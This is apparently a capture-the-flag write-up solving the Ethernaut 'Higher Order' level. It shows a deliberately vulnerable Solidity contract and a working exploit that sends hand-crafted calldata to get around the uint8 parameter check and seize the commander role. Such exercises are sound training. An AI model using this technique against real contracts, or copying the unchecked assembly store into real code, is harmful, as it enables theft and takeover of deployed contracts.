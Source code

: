 ```yaml
---
title: Ethernaut - Higher Order - Solution
date: '2024-06-12'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Ethernaut - Higher Order CTF
---
```


# Ethernaut - Higher Order - Solution

## Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.6.12;

contract HigherOrder {
    address public commander;

    uint256 public treasury;

    function registerTreasury(uint8) public {
        assembly {
            sstore(treasury_slot, calldataload(4))
        }
    }

    function claimLeadership() public {
        if (treasury > 255) commander = msg.sender;
        else revert("Only members of the Higher Order can become Commander");
    }
}
```

## Solution

The goal of this challenge is to become the `commander` by setting `treasury` to a value greater than 255.

If we naively try to achieve this, e.g., via

```javascript
await contract.registerTreasury(256)
```

the function's parameter type validation will prevent the transaction from succeeding.

If we, however, specify the calldata manually and send it off via `sendTransaction`, we can simply change one of the higher-order zeros to 1, bypassing the function's type check:

```javascript
await sendTransaction({from: "<your player address>", to: "<your level instance address>", input: "0x211c85ab00000000000000000000000000000000000000000000000000000000000001ff"})
```

In the command above, `211c85ab` is the function selector of `registerTreasury()` and `00000000000000000000000000000000000000000000000000000000000001ff` is the 32-byte word that corresponds to the decimal number 511 when interpreted as a `uint256`.

All that is left to do is to issue 

```javascript
await contract.claimLeadership()
```

in the Ethernaut console in order to complete the level.
